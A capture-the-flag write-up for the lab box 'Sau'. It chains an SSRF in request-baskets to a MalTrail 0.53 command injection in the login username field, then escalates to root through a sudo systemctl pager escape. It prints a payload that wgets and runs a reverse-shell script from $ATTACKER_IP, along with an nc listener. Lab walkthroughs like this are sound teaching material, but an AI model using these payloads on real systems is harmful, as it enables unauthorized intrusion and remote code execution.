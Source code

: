 # Sau

## Information about the box

- Difficulty: easy
- Points: 20

## Discovery

The first thing I have done is scan the machine. I used the following command:

```
$ nmap -vv -T5 -A --top-ports=2000 -Pn -oA nmap/nmap $BOX_IP
```

- `-vv` - Very verbose
- `-T5` - Very fast scan
- `-A`  - Same as `-sV -sC -O`, which means:
    - `-sV` - Scan version of services
    - `-sC` - Scan for vulnerabilities and run other auxiliary scripts
    - `-O`  - Scan OS type and version
- `--top-ports` - Scan top ports. Set to 1000 by default.
- `-Pn` - Do not ping and assume host is alive.
- `-oA` - Output in `text`, `xml` and `greppable` formats.
- `$BOX_IP` - Variable I set with the box IP address

The scan gave me the following information:

- Port 22 open - `OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)`
- Port 55555 open - `An unknown HTTP service`

After recieving the results, I opened the browser and accessed `http://BOX_IP:55555`.

![](./img/sau_1.png)

The project is found [here](https://github.com/darklynx/request-baskets). 

## Exploitation

After playing around with the project, it made me think that, maybe, there is some kind of SSRF, so the first thing I've done is:

1. Create a new basket.
2. Configure the location of the proxy forward URL to `http://127.0.0.1`.
3. Set `Proxy Response` in order to see the response.
4. Set `Expand Forward Path` in order to navigate the forwarded page.

After visiting the webhook, I discovered that I was greeted with a new service called `MalTrail`

![](./img/sau_2.png)

After a quick search, I've discovered that the `MalTrail` software was once vulnerable to an Unauthenticated OS Command Injection vulnerability, which was exploited in version `0.53` - The same version hosted on the box.

The exploit is caused by the way an authentication attempt is logged. The software logs an invalid or valid attempt to login by running a binary called `logger` and appending the data from the software. The way the username is appended allows the attacker to end the command using a `;` and appending additional commands. Here's an example:

If we give MalTrail the following username: `test`, the command ran on the machine will be the following:

``` bash
$ logger -p auth.info -t maltrail[XXXX] Failed password for test from x.x.x.x port xxxxx
```

But if we give MalTrail the following username: `;ping x.x.x.x; #`, the following command will be ran:

``` bash
$ logger -p auth.info -t maltrail[XXXX] Failed password for ;ping x.x.x.x; #from x.x.x.x port xxxxx
```

This will execute the `logger` command as well as the ``ping` command.

The vulnerability is highlighted [here.](https://github.com/stamparm/maltrail/blob/master/core/httpd.py#L399)

## Gaining access

I forged the following POST payload:

```
username=;`wget -O /tmp/rv.py http://$ATTACKER_IP:8000/reverse_shell.py`;`python3 /tmp/rv.py`.
```

Before sending it, I have setup:

- `nc -lvp 9999` - My TCP listener from which I will input my commands.
- `python3 -m http.server` - My HTTP server with a file `reverse_shell.py`, containing a reverse shell pointing to my IP address on port 9999.

I sent the request and popped a shell.

![](./img/sau_3.png)

## Post exploitation

The next thing I've done is create a new directory in `/tmp`. I downloaded linpeas.sh to the box and ran it using the following command: `./linpeas.sh &>/tmp/folder/output.txt &`. 
- `&>/tmp/folder/output.txt` - Redirect stdout, stderr to `output.txt`.
- `&` - Run in background.

The next thing I done is check the user's home directory, where I found the first flag.

I have then checked `sudo -l` and found, that the user can run `sudo systemctl status trail.service` without any password, so I tried the command and my shell stopped working.

I gained back access and created a new SSH key which I copied to my attacker machine in order to gain a cleaner shell.

## Root

After some time, I figured out that there was some problem with the `pager` binary which pointed to `less`. In order to solve this problem, I copied the `more` binary to my `/tmp/folder`, set `$PATH` to `$(pwd):$PATH` and run `systemctl status trail.service` again, an to my surprise it worked!.

I then typed in `!sh` to invoke a shell from `more` and gained `root`! The `root` flag was found in the `root`'s home directory.